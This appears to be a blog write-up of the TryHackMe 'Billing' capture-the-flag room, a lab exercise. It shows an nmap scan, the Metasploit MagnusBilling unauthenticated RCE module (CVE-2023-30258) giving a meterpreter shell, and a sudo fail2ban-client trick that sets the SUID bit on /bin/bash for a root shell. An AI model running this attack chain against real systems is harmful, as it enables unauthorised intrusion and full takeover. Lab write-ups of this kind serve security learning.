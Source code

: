 ```yaml
---
title: "Billing"
date: 2025-04-23
draft: false
summary: "Writeup for Billing CTF challenge on TryHackMe."
tags: ["linux", "sudo", "rce"]
categories: ["writeups"]
series: []
showToc: true
cover:
  image: "https://cdn.ziomsec.com/billing/cover.webp"
  caption: "Billing TryHackMe Challenge"
  alt: "Billing cover"
platform: "TryHackMe"
---
```


Some mistakes can be costly. Gain a shell, find the way and escalate your privileges!
<!--more-->
To access the machine, click on the link given below:
- https://tryhackme.com/room/billing

## Reconnaissance

I performed an **nmap** aggressive scan on the target to find open ports, os information, service versions and to run a default nse script scan.

```shell
nmap -A -p- TARGET --min-rate 10000 -oN billing.nmap
```

![](https://cdn.ziomsec.com/billing/1.webp)

## Initial Access

The target had a web server running so I accessed the web page through my browser.

![](https://cdn.ziomsec.com/billing/2.webp)

I accessed the `robots.txt` file but did not find any new endpoints. I then moved onto port 5038 and accessed it through my browser.

![](https://cdn.ziomsec.com/billing/3.webp)

Since I did not have much to work with, I started the **metasploit** framework and looked for exploits for **asterisk**.

```shell
msfconsole
search asterisk
```

![](https://cdn.ziomsec.com/billing/4.webp)

Since there was a well ranked RCE exploit for **mbilling** service, I decided to give it a try.

```shell
use exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258
```

I configured the `RHOST` and `LHOST` and ran the exploit to get a meterpreter shell.

![](https://cdn.ziomsec.com/billing/5.webp)

I spawned a **pty bash** shell and enumerated information about the current user and os kernel.

```shell
> shell
$ whoami
$ uname -a
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ export TERM=xterm
```

![](https://cdn.ziomsec.com/billing/6.webp)

I then looked for the flag and found it in *magnus* user's home directory.

```shell
cd magnus
cat user.txt
```

![](https://cdn.ziomsec.com/billing/7.webp)

## Privilege Escalation

I looked at my **sudo** privileges and found that I could run a command with sudo without password.

```shell
sudo -l
```

![](https://cdn.ziomsec.com/billing/8.webp)

I ran the command to see what it did. It looked like a utility to ban and unban IPs...

```shell
sudo /usr/bin/fail2ban-client
```

![](https://cdn.ziomsec.com/billing/9.webp)

This was the first time I came across such an attack vector. So I searched online and found this guide that showed how it could be used for privilege escalation:
- https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-fail2ban-client-privilege-escalation/

![](https://cdn.ziomsec.com/billing/10.webp)

I copied the steps shown and managed to add an **suid** bit to **`/bin/bash`**.

```shell
sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client get ip-blacklist actions
sudo /usr/bin/fail2ban-client set ip-blacklist addaction evil
sudo /usr/bin/fail2ban-client set ip-blacklist action evil actionban "chmod +s /bin/bash"
sudo /usr/bin/fail2ban-client set ip-blacklist banip 1.2.3.5
ls -la /bin/bash
```

![](https://cdn.ziomsec.com/billing/11.webp)

Finally, I executed `/bin/bash` in privileged mode and found the root flag inside the **`/root`** directory.

```shell
/bin/bash -p
cd /root
cat root.txt
```

![](https://cdn.ziomsec.com/billing/12.webp)

## Closure

Here's a short summary of how I pwned **Billing**:
- I performed an **nmap** scan on the target and found MagnusBilling and Asterisk running on port 80 and 5038 respectively.
- I found an RCE exploit for MagnusBilling and got meterpreter shell through it.
- I captured the first flag from `magnus`'s home directory.
- Enumerating my `sudo` privileges revealed I could run an IP banning/unbanning utility without password.
- I found an article online that demonstrated how that could be used to escalate privileges and used it to gain root shell.
- Finally, I captured the last flag from the `/root` directory.

That's it from my side!
Until next time :)

---
